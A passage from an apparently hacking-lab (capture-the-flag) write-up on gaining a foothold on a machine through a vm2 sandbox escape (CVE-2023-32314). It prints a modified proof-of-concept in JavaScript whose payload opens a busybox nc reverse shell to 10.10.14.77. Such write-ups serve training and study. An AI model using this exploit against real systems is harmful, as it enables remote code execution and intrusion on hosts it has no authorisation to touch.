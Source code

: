 
Now I wanted to try spawning a reverse shell again using the same method:
![Base64 encoded reverse shell](img/09_codify.png)  
Ah rats, that didn't work.

## Step 3 - Initial foothold
The `/about` page provided information that the editor uses `vm2` library for sandboxing. I did a quick google search using `vm2 sandbox escape` as the query. The first results provided me information about `CVE-2023-32314` which is for a sandbox bypass in vm2. Convenient!

I found a  PoC from [snyk.io](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100) and modified it with a busybox nc reverse shell (no special reason for using busybox nc, I just have good experience with it):
```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("busybox nc 10.10.14.77 5555 -e sh").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```
